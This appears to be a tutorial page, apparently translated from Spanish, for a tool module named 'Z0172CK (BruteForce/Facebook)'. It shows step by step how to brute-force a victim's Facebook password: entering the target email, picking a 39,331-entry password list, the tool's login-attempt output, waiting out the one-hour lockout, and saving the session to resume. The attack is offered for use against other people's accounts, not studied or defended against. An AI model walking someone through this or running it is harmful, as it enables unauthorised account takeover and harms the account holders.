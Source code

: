 ```bash
Z0172CK (BruteForce/Facebook) > 1
Email account:
```

we put the mail of a victim

```bash
Password List (Hit Enter to default list):
```

we put the path of the list of our passwords or we give enter to use the one that comes by default

```bash
Wordlist: modules/FB-BruteForce/passwords.lst (39331)
[*] Press Ctrl + C to stop or save session
Trying pass (1/39331): "password"
Trying pass (2/39331): "12345678"
Trying pass (3/39331): "123456789"
Trying pass (4/39331): "iam123"
Trying pass (5/39331): "baseball"
Trying pass (6/39331): "football"
Trying pass (7/39331): "qwertyuiop"
Trying pass (8/39331): "1234567890"
Trying pass (9/39331): "superman"
Trying pass (10/39331): "1qaz2wsx"
Trying pass (11/39331): "trustno1"
Trying pass (12/39331): "jennifer"
Trying pass (13/39331): "sunshine"
Trying pass (14/39331): "iloveyou"
Trying pass (15/39331): "starwars"
Trying pass (16/39331): "computer"
Trying pass (17/39331): "michelle"
Trying pass (18/39331): "11111111"
Trying pass (19/39331): "princess"
Trying pass (20/39331): "987654321"
[*] Waiting 1 hour, to return at:
```

all 20 passwords have been completed and we have to wait for one or we can give it Ctrl + c to save the attack and use it again in an hour

```bash
Ctrl + c
[*] Waiting a second...

Save session for user correo@correo.com ? [Y/n]:
```

It will ask us if we want to save the session. in this case I give it that if

```bash
Save session for user correo@correo.com ? [Y/n]: Y
```

```bash
Session saved.
Use [11] resume
```
